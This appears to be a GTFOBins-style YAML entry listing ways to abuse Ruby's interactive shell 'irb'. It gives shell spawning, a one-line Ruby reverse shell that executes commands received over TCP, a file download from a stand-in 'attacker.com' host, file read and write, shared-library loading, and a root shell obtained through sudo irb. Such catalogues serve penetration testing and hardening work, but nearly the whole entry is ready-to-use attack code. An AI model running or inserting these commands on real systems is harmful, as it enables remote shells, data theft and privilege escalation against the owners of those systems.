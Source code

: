 functions:
  shell:
    - code: |
        irb
        exec '/bin/bash'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST='127.0.0.1'
        export RPORT=9000
        irb
        require 'socket'; exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read} end
  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8888.
      code: |
        irb
        require 'webrick'; WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start;
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        irb
        require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['LFILE'])
  file-write:
    - code: |
        irb
        File.open("file_to_write", "w+") { |f| f.write("DATA") }
  file-read:
    - code: |
        irb
        puts File.read("file_to_read")
  library-load:
    - code: |
        irb
        require "fiddle"; Fiddle.dlopen("lib.so")
  sudo:
    - code: |
        sudo irb
        exec '/bin/bash'
---
